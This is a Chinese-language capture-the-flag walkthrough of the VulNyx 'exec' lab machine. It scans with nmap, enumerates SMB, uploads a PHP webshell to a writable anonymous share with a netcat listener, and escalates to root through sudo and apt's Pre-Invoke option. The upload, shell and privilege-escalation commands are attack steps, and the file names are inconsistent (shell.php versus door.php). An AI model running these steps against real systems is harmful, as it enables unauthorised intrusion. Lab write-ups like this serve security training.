




# 环境

来自[vulnyx_exec](https://vulnyx.com/#exec)，利用smb具有读写权限传shell

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.30
```


## 服务探测

```bash
sudo nmap -sV -sC -O -p22,80,139,445 192.168.88.30
```



# smb渗透

访问80，发现只有测试页面，目录扫描也没有什么发现

## smb信息收集

所有对smb进行深度信息收集，工具使用enum4linux，netexec、smbmap都行

**enum4linux**

```bash
enum4linux -S 192.168.88.30
```



**netexec**

```bash
netexec smb //192.168.88.30 -u '' -p '' --shares
```


**smbmap**

```bash
smbmap --no-banner -H 192.168.1.74
```


发现这个server有读写权限

## 连接smb

```bash
cp /usr/share/webshells/php/simple-backdoor.php ./shell.php
修改shell.php的ip和端口
smbclient //192.168.88.30 -U '' -N
smb: \> put shell.php
nc -lvvp 9999
```


访问`http://192.168.88.30/door.php`，即可拿shell



## sudo提权

[linux命令提权](https://gtfobins.github.io/)中的apt提权

```bash
$ /bin/script -qc /bin/bash /dev/null
www-data@exec:/$ sudo -l
Matching Defaults entries for www-data on exec:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty
User www-data may run the following commands on exec:
    (s3cur4) NOPASSWD: /usr/bin/bash
www-data@exec:/$ sudo -u s3cur4 /usr/bin/bash
s3cur4@exec:/$ sudo -l
Matching Defaults entries for s3cur4 on exec:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty
User s3cur4 may run the following commands on exec:
    (root) NOPASSWD: /usr/bin/apt
#apt提权可查看GTFBins
s3cur4@exec:/$ sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh
```
